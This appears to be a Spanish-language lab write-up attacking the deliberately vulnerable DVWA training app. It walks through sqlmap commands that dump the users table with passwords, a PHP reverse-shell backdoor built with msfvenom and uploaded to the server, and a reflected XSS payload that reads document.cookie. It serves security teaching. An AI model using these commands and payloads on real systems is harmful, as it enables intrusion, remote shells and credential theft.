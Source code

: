 # Act. 2.2 Realizar los siguientes Ataques al DVWA.

### 1. inyección SQL.

Primeramente mediante el uso de la terminal de comandos, obtendremos la dirección ip en la cual esta alojado nuestro servidor de dvwa.

    ipaddr

![](imgs/capture_1.png)

Luego, mediante el uso del navegador FireFox Development Edition, obtendremos su ID de inicio de sesión.

![](imgs/capture_2.png)

Posterior a la obtención de estos datos, procederemos con la utilización de sqlmap

A) Muestreo de la descripción e información básica acerca de la base de datos.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low"

![](imgs/capture_3.png)

B) Muestreo de las bases de datos disponible.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" --dbs

![](imgs/capture_4.png)

C) Muestreo de las bases de las tablas disponibles.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" --tables

![](imgs/capture_5.png)

D) Muestreo de las bases de las columas disponibles de una tabla.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" -D dvwa -T users --columns

![](imgs/capture_6.png)

D) Muestreo de los usuarios y contraseñas de una tabla.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" -D dvwa -T users --dump

![](imgs/capture_7.png)

Contenido audiovisual complementario: https://www.youtube.com/watch?v=i1yle_9cJXw

### 2. Subida de Archivos.

A) Muestreo de la lista de las cargas utiles disponibles en esta herramienta.

    msfvenom -l payloads

En este caso ocuparemos reverse_php

![](imgs/capture_8.png)

B) Creamos el archivo backdoor.php

    msfvenom -p php/reverse_php lhost=192.168.68.107 lport=4444 -f raw -o backdoor.php

Y verificamos su existencia con:

    ls

![](imgs/capture_9.png)

C) Subimos el archivo backdoor.php a nuestro dvwa

![](imgs/capture_10.png)

¡Importante!, esta la posibilidad de que dvwa tenga desacctivo por defecto la subida de archivos, por lo cual en caso de que tengas un error puedes ejecutar los siguientes comandos en tu servidor para actualizar los permisos:

    sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads/
    sudo chmod -R 755 /var/www/html/dvwa/hackable/uploads/

Luego compruebas su funcionamiento creando un archivo de prueba

    sudo -u www-data touch /var/www/html/dvwa/hackable/uploads/test.txt

Y verificamos su existencia con:

    cd /var/www/html/dvwa/hackable/uploads/
    ls

![](imgs/capture_11.png)

D) Ya por ultimo abrimos una nueva ventana y ejecutamos nuestro backdoor.php

    http://192.168.68.107/dvwa/hackable/uploads/backdoor.php

Este nos mostrara un texto por defecto, siendo que en caso de backdoor.php nos refleja /\*

![](imgs/capture_12.png)

### 3. XSS Reflejado.

A) Incrustamos el siguiente codigo JavaScript en dvwa.

    <script>alert(document.cookie)</script>

![](imgs/capture_13.png)

Este nos mostrara el nivel de seguridad de nuestra aplicación, ya a partir de este ejemplo puedes agregar el codigo JavaScript que gustes.

Ej:

    <script>alert("Hola soy Gil")</script>

![](imgs/capture_14.png)
